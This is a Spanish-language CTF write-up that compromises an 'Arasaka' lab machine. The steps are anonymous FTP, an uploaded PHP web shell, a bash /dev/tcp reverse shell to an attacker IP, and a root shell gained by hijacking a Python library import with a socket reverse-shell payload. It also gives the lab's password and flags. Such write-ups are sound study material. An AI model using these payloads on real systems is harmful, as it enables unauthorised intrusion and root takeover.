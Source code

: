 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.133 -oN escaneo
```
![alt text](image.png)

Vemos que  nos muestra que hay un servicio FTP corriendo en el puerto 21. Además nos indica que el usuario `anonymous` (usuario por derfecto), está habilitado. Así que vamos a entrar al servicio para ver que nos muestra el archivo `secret.txt` que sale en el escaneo de puertos.
```
ftp 192.168.80.133
user: anonymous
password: 
```
![alt text](image-1.png)

Ahora vamos a descargar el archivo `secret.txt`, para ver que nos mustra.
```
get secret.txt
```
![alt text](image-2.png)

Ahora vamos a ver que esconde.
![alt text](image-3.png)

Vemos que nos mustra de que la empresa Arasaka está migrando sus sistemas y que es vulnerable. Nos pide que penetremos el sistema y que nos espera en `Apache`, el servicio de servidores web que corresponde con el servicio que estaba abierto en el puerto 80 en el escaneo de puertos, así que vamos a introducir la dirección al navegado para ver si hay algo.
![alt text](image-4.png)

Vemos que nos muestra una web. Así que podemos subir por el servicio FTP una `web shell` para poder intentar realizar una `reverse shell`. Vamos a abrir un archivo .php y vamos a introducir lo siguiente.
```
<?php
    system($_GET['cmd']);
?>
```
![alt text](image-5.png)

Lo guardamos y lo subimos al servicio FTP.
```
put webshell.php
```
![alt text](image-6.png)

Al ver que la tenemos subida vamos a realizar una prueba para ver si funciona. En la url, pondremos el nombre del archivo seguido de una `/` y luego  un `?` con la variable que hemos puesto que es `cmd`, luego pondremos un `=` y finalmente pondremos un comando del servidor.
![alt text](image-7.png)

Ahora vamos a intentar realizar una reverse shell. Para ello hay que `urlencodear` el siguiente comando.
```
bash -c 'exec bash -i &>/dev/tcp/192.168.80.130/6969 <&1'
```

Urlencodeado:
```
%62%61%73%68%20%2d%63%20%27%65%78%65%63%20%62%61%73%68%20%2d%69%20%26%3e%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%38%30%2e%31%33%30%2f%36%39%36%39%20%3c%26%31%27
```

Una vez lo tenemos, nos vamos a poner en escucha en el puerto indicado.
```
nc -lnvp 6969
```
![alt text](image-8.png)

Ahora introduciremos la revers shell urlencodeada al lado del `=`.
![alt text](image-9.png)

Si todo ha salido bién, se habrá quedado colgada la web, así que volveremos a nuestra terminal para ver si ha funcionado.
![alt text](image-10.png)

Si vamos al directorio `/opt`, veremos que hay un archivo con un cifrado raro.
```
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```
![alt text](image-11.png)

Vamos a introducir el cifrado en google para ver si nos dice el tipo. Vemos que nos muestra que es un cifrado `brainfuck`. Al descifrarlo, vemos que nos da de pasword:
```
cyberpunk2077
```

Vemos que ahora tenemos la password del usaurio `Arasaka`, así que vamos a entrar en el.
```
su arasaka
password: cyberpunk2077
```
![alt text](image-12.png)

Ahora vamos a la carpeta del usuario y vamos a ver si está la flag de uasuario.
```
flag: 41311c28da287ef8acf6ad429c42c5d2
```
![alt text](image-13.png)

Ahroa vamos a ver si nos podemos ayudar de algún binario para poder escalar al usuario root.
```
sudo -l
password: cyberpunk2077
```
![alt text](image-14.png)

Vemos que podemos ejecutar un archivo python para escalar a root. Vamos a ver que contiene.
![alt text](image-15.png)

Vemos que este script te permite pasar cadenas de texto a base64. Vemos que al principio está importando una librería, vamos a engañar a pyhon y vamos a crear un archivo python llamado igual que la librería para que nos ejectute una reverse shell como root. El archivo debe contener lo siguiente.
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.80.130",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```
![alt text](image-16.png)

Ahora nos pondremos a la escucha por el puerto indicado y ejecutaremos el script.
```
nc -lnvp 443
```
![alt text](image-17.png)

```
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```
![alt text](image-18.png)

Vemos que se nos quedará colgado y se nos abre una terminal en el puerto que estaba a la escucha.
![alt text](image-19.png)

Ahora vamos a printar la flag del usuario root.
```
cat /root/root.txt
```
![alt text](image-20.png)
```
flag2: 344a4a8f53d36e7449957489701b040f
```